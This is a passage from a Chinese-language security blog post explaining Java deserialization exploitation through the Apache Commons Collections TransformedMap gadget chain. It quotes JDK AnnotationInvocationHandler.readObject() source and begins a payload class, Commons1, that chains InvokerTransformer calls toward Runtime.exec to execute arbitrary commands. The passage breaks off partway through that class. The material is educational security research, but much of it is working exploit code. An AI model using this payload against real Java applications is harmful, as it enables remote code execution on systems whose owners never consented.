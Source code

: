             exMapValue.setValue(1);
        }
    }
}
{% endhighlight %}

根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

![](http://rickgray.me/public/img/article/2015-11-25-untrusted-deserialization-exploit-with-java/5.png)

然后我们现在只是测试了使用 `TransformedMap` 进行任意命令执行而已，要想在 Java 应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用 `readObject()` 的时候调用 `TransformedMap` 内置类 `MapEntry` 中的 `setValue()` 函数，这样才能构成一条完整的 Gadget 调用链。恰好在 `sun.reflect.annotation.AnnotationInvocationHandler` 类具有 `Map` 类型的参数，并且在 `readObject()` 方法中触发了上面所提到的所有条件，其源码如下：

{% highlight java %}
    private void readObject(java.io.ObjectInputStream s) {
        ...省略...
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                    memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
                }
            }
        }
    }
{% endhighlight %}

可以注意到 `memberValue` 是 `AnnotationInvocationHandler` 类中类型声明为 `Map<String, Object>` 的成员变量，刚好和之前构造的 `TransformedMap` 类型相符，因此我们可以通过 Java 的反射机制动态的获取 `AnnotationInvocationHandler` 类，使用精心构造好的 `TransformedMap` 作为它的实例化参数，然后将实例化的 `AnnotationInvocationHandler` 进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget，完整代码如下：

{% highlight java %}
package exserial.payloads;

import java.io.ObjectOutputStream;

import java.util.Map;
import java.util.HashMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;

import exserial.payloads.utils.Serializables;

public class Commons1 {

    public static Object getAnnotationInvocationHandler(String command) throws Exception {
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},